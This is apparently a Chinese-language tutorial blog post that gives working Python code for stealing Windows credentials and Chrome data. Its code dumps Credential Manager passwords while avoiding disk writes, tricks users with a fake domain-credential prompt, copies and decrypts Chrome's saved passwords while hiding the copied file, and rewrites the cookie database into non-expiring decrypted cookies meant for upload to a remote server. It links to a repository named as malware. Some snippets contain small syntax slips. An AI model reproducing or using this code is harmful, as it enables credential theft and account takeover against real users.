 ```yaml
---
title: 窃取凭据与cookie
description: 使用python窃取windows凭据与chrome cookie.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


### 环境准备

`python3`

`pip install pypiwin32`

### 导入所需要包

导入所需包和模块，并创建一个常量，用来调用某些凭据管理器相关功能时使用。

```python
import os
import io
import sqlite3
import shutil
import win32cred
import win32crypt
import win32api
import win32con
import pywintypes

CRED_TYPE_GENERIC = win32cred.CRED_TYPE_GENERIC
```

### 从windows凭据管理器中存储通用凭据

通用凭据是非域凭据。如果你在windows上使用Git并通过GitHub，Bitbucket，Gitlab等进行身份验证，则凭据将存储在CredMan中。

首先导入枚举和读取凭据所需的功能。
```python
def dump_credsman_generic():
    CredEnumerate = win32cred.CredEnumerate
    CredRead = win32cred.CredRead
```
然后，我们枚举存储在凭据管理器中的凭据，并将其放入`creds`变量中，该变量是一个元组。
```python
try:
    creds = CredEnumerate(None, 0)  # 枚举凭证
except Exception:  # 避免在任何异常情况下崩溃
    pass
```
现在，我们要遍历每个凭据集，再添加到`credentials`列表中。
```python
credentials = []

for package in creds:
    try:
        target = package['TargetName']
        creds = CredRead(target, CRED_TYPE_GENERIC)
        credentials.append(creds)
    except pywintypes.error:
        pass
```
创建一个内存文本流，避免在磁盘上写文件，遍历`credentials`变量并将所需的数据写入文本流。
```python
credman_creds = io.StringIO()  # 内存中文本流

for cred in credentials:
    service = cred['TargetName']
    username = cred['UserName']
    password = cred['CredentialBlob'].decode('utf-8','ignore')

    credman_creds.write('Service: ' + str(service) + '\n')
    credman_creds.write('Username: ' + str(username) + '\n')
    credman_creds.write('Password: ' + str(password) + '\n')
    credman_creds.write('\n')

return credman_creds.getvalue()
```

![3_1](https://yui77111.github.io/assets/images/article/python/3_1.png)

### 询问提示域凭据

通过社工方式，用`CredUIPromptForCredentials()`功能来显示一个对话框来询问用户，从而欺骗用户向我们提供其域凭据。

```python
def ask_domain_credentials():
    CredUIPromptForCredentials = win32cred.CredUIPromptForCredentials

    creds = []

    try:
        creds = CredUIPromptForCredentials(os.environ['userdomain'], 0, os.environ['username'], None, True, CRED_TYPE_GENERIC, {})
    except Exception:
        pass
    return creds
```

![3_2](https://yui77111.github.io/assets/images/article/python/3_2.png)

返回如下格式

![3_3](https://yui77111.github.io/assets/images/article/python/3_3.png)

### 存储保存在Chrome中的密码

如果在保存凭据时未设置主密码，则访问数据库中的加密`Blob`可以使用`CrytUnprotectData`解密(因为windows上的Chrome使用`CrytUnprotectData WinAPI`函数对其进行加密，[参考](https://chromium.googlesource.com/chromium/chromium/+/master/chrome/browser/password_manager/encryptor_win.cc))，只要它在当前用户上下文中完成即可。这意味着你不能只是获取数据库并在具有不同用户的另一台计算机上打开它。
Chrome密码存在Login Data在%localappdata%\Google\User Data\Default\目录中名为Login Data数据库中。可以用DB Brower看到数据库的结构。

![3_4](https://yui77111.github.io/assets/images/article/python/3_4.png)

我们想查询：`action_urls`，`username_value`和`password_value`。字段`password_value`包含一个加密的`Blob`，我们将使用以下代码对其进行解密。
我们先制作数据库文件的本地副本，否则如果当Chrome正在运行，它将带有一个句柄并且数据库将被锁定。

```python
try:
    login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Login Data'
    shutil.copy2(login_data, './Login Data')  # 复制数据库到当前目录
    win32api.SetFileAttributes('./Login Data',win32con.FILE_ATTRIBUTE_HIDDEN)  # 在文件操作过程中不可见
except Exception:
    pass

chrome_credentials = io.StringIO()
```
现在，我们使用sqlite3库打开Login Data数据库的本地副本，并查询用户保存凭据。
```python
try:
    conn = sqlite3.connect('./Login Data', )                                        # 连接数据库
    cursor = conn.cursor()                                                          # 创建一个游标来获取数据
    cursor.execute('SELECT action_url, username_value, password_value FROM logins') # 查询
    results = cursor.fetchall()                                                     # 获取数据
    conn.close()                                                                    # 关闭数据库文件，使其不会被进程锁定
    os.remove('Login Data')  
"""
```
遍历获取到的数据并使用WinAPI函数`CryptUnprotectData`解密密码，最后返回保存好的内存中的文本流。
```python
    for action_url, username_value, password_value in results:
        password = win32crypt.CryptUnprotectData(password_value, None, None, None, 0)[1] # 使用CryptUnprotectData解密
        if password:                                                                       # 将凭据写进内存中的文本流
            chrome_credentials.write('URL: ' + action_url + '\n')
            chrome_credentials.write('Username: ' + username_value + '\n')
            chrome_credentials.write('Password: ' + str(password) + '\n')
            chrome_credentials.write('\n')
    return chrome_credentials.getvalue()                                                   # 返回内存中的文本流

except sqlite3.OperationalError as e:
    print(e)
    pass

except Exception as e:
    print(e)
```

![3_5](https://yui77111.github.io/assets/images/article/python/3_5.png)

### 窃取Chrome Cookie

Chrome Cookie与存储在Chrome 的密码一样，为同目录下的Cookies文件并用`CryptProtectData`加密。但不同的是我们使用解密的cookie窃取整个数据库文件重写数据库内部的数据。然后，如果会话在服务器上尚未过期或用户尚未注销，则可以将该数据库上载到远程服务器，并在站点中用于进行身份验证。

```python
login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Cookies'  # cookies文件路径
shutil.copy2(login_data, './Cookies')  # 复制到当前路径
win32api.SetFileAttributes('./Cookies', win32con.FILE_ATTRIBUTE_HIDDEN)
try:
    conn = sqlite3.connect('./Cookies')  # 连接
    cursor = conn.cursor()
    cursor.execute('SELECT host_key, name, value, encrypted_value FROM cookies')  # 查询
    results = cursor.fetchall()  # 获取

    # 解密
    for host_key, name, value, encrypted_value in results:
        decrypted_value = win32crypt.CryptUnprotectData(encrypted_value, None, None, None, 0)[1].decode()

        # 使用解密的值更新文件
        cursor.execute("UPDATE cookies SET value = ?, has_expires = 1, expires_utc = 99999999999999999,is_persistent = 1, is_secure = 0 WHERE host_key = ? AND name = ?"，(decrypted_value, host_key, name));

    conn.commit()  # 保存改变
    conn.close()  # 关闭文件，使其不被进程锁定

except Exception as e:
    print(e)
    pass
```

原cookies文件

![3_6](https://yui77111.github.io/assets/images/article/python/3_6.png)

新生成cookies文件

![3_7](https://yui77111.github.io/assets/images/article/python/3_7.png)


源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/credentials and cookies/main.py)
